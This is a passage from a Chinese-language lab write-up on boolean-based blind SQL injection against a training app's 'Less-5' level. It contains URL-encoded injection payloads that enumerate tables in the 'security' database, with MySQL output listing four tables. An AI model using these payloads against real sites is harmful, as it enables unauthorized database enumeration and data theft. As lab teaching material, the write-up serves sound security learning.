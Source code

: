 ```
mysql> select table_name from information_schema.tables where table_schema='security';
+------------+
| table_name |
+------------+
| emails     |
| referers   |
| uagents    |
| users      |
+------------+
4 rows in set (0.00 sec)
```

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%203,1))%3E0)--+`

![](assets/markdown-img-paste-20180418164052797.png)

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%204,1))%3E0)--+`

![](assets/markdown-img-paste-20180418170042651.png)

显然`security`数据库一共有4个表

```
mysql> select table_name from information_schema.tables where table_schema='security' limit 3,1;
+------------+
| table_name |
+------------+
| users      |
+------------+
1 row in set (0.00 sec)

mysql> select table_name from information_schema.tables where table_schema='security' limit 4,1;
Empty set (0.00 sec)

mysql> select table_name from information_schema.tables where table_schema='security';
+------------+
| table_name |
+------------+
| emails     |
| referers   |
| uagents    |
| users      |
+------------+
```